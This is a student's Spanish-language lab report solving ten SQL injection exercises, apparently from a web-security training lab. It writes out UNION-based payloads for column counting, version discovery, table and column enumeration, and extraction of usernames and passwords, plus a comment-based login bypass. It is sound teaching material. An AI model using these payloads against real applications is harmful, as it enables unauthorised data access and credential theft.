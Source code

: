 ```sql
```
# Práctico 3 Base De Datos – Jose Ignacio Lavecchia

1- '+ OR 1 = 1 –  
También se podría hacer algo como esto:

SELECT * FROM products WHERE category = '' OR '1' = '1' AND released = 0; 

Suponiendo que released es un booleano en el que 0 es el valor de productos que no han sido liberados y 1 el de productos que ya han sido liberados.

2- Modificamos el parámetro de username con administrator '-- ya que así todo lo que siga en la consulta será ignorado por el -- de los comentarios.

3- La idea es realizar un ataque con el comando UNION, pero antes debemos asegurarnos de que el número de columnas en la consulta original coincide con el número de columnas de nuestra SQL Injection. Para esto, el comando UNION solo va a funcionar si el número y tipo de columnas coinciden.

Para esto, utilizamos un payload como este: 
'+UNION+SELECT+'abc','def'+FROM+dual--

Después procedemos a intentar obtener algún tipo de información de la base de datos, como por ejemplo la versión, para esto utilizamos el siguiente payload:

'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

4- Primero determinamos el número de columnas que está devolviendo la query original y las columnas las cuales contienen la información, para ello utilizamos el siguiente payload:

'+UNION+SELECT+'abc','def'#

(# = Comentario)

Después utilizamos el siguiente payload para obtener la versión de la base de datos:

'+UNION+SELECT @@version,+NULL#

5- Primero determinamos el número de columnas que está devolviendo la query original y las columnas las cuales contienen la información, para ello utilizamos el siguiente payload:

'+UNION+SELECT+'abc','def'#

Procedemos a utilizar el siguiente payload para que nos devuelva las tablas en la base de datos:

'+UNION+SELECT+table_name,+NULL+FROM+information_schema.columns+WHERE+table_name = 'users_abcdef'—

Después de encontrar las columnas que contienen los usernames y las passwords, utilizamos el siguiente payload para que nos devuelva los usuarios y contraseñas para todos los usuarios:

'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef—

Finalmente encontramos la contraseña para el usuario “administrator” y nos logueamos.

6- Primero determinamos el número de columnas que está devolviendo la query original y las columnas las cuales contienen la información, para ello utilizamos el siguiente payload:

'+UNION+SELECT+'abc','def'+FROM+dual—

Procedemos a utilizar el siguiente payload para obtener la información de la lista de tablas en la base de datos:

'+UNION+SELECT+table_name,+NULL+FROM+all_tables—

Después de encontrar la tabla que tiene las credenciales del usuario, procedemos a realizar el siguiente payload para recibir información de las columnas de la tabla:

'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'—

Procedemos a ejecutar el siguiente payload para recibir la información de los usuarios y sus contraseñas:

'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF—

Por último, simplemente encontramos al usuario llamado 'administrator' y su contraseña y nos logueamos.

7- Para determinar el número de columnas devueltas por la query, simplemente ejecutamos el siguiente payload:

'+UNION+SELECT+NULL,NULL—

Continuamos añadiendo `NULL` hasta que la consulta compile correctamente.

8- Primero determinamos el número de columnas devueltas por la query, una vez que obtenemos la cantidad de consultas correctas, simplemente empezamos a reemplazar cada `NULL` por un string hasta que compile correctamente, obteniendo así la columna de tipo texto.

'+UNION+SELECT+NULL,NULL,NULL—

'+UNION+SELECT+'seraestalacolumnadetipotexto?',NULL,NULL—

9- Primero determinamos el número de columnas devueltas por la query y cuáles de ellas contienen datos:

'+UNION+SELECT+'abc','def'—

Después, obtenemos las credenciales de la tabla de usuarios:

'+UNION+SELECT+username,+password+FROM+users—

Buscamos el usuario llamado 'administrator' y nos logueamos.

10- Finalmente, determinamos el número de columnas devueltas por la query y utilizamos este payload para concatenar las credenciales en una sola columna, separadas por `~`:

'+UNION+SELECT+NULL,'abc'—

'+UNION+SELECT+username||'~'||password+FROM+users—
